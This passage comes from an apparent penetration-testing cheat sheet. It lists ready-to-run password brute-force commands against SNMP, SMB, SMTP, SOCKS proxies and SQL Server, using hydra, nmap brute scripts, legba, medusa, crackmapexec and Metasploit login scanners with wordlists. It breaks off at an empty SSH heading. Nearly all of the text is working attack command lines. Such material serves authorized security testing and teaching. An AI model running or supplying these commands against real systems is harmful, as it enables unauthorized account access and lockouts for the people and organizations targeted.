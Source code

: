 ### SNMP

```bash
msf> use auxiliary/scanner/snmp/snmp_login
nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]
onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt <IP>
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp
```

### SMB

```bash
nmap --script smb-brute -p 445 <IP>
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
legba smb --target share.company.com --username admin --password data/passwords.txt [--smb-workgroup <SMB_WORKGROUP>] [--smb-share <SMB_SHARE>]
```

### SMTP

```bash
hydra -l $user -P /path/to/passwords.txt <IP> smtp -V
hydra -l $user -P /path/to/passwords.txt -s 587 <IP> -S -v -V #Port 587 for SMTP with SSL
legba smtp --username admin@example.com --password wordlists/passwords.txt --target localhost:25 [--smtp-mechanism <mech>]
```

### SOCKS

```bash
nmap  -vvv -sCV --script socks-brute --script-args userdb=users.txt,passdb=/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt,unpwndb.timelimit=30m -p 1080 <IP>
legba socks5 --target localhost:1080 --username admin --password data/passwords.txt
# With alternative address
legba socks5 --target localhost:1080 --username admin --password data/passwords.txt --socks5-address 'internal.company.com' --socks5-port 8080
```

### SQL Server

```bash
#Use the NetBIOS name of the machine as domain
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be careful with the number of passwords in the list, this could block accounts
msf> use auxiliary/scanner/mssql/mssql_login #Be careful, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT
```

### SSH

